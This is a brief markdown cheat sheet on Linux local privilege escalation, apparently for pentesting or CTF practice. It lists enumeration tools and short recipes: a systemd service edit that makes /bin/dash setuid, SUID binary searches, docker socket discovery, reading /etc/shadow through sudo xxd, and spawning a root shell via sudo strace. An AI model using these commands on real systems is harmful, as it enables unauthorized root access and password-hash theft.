 # LPE Linux

## Tools 

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration")
- [LinEnum](https://github.com/rebootuser/LinEnum")

## Systemd

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Docker

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```bash
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```bash
sudo strace -o /dev/null /bin/sh
```

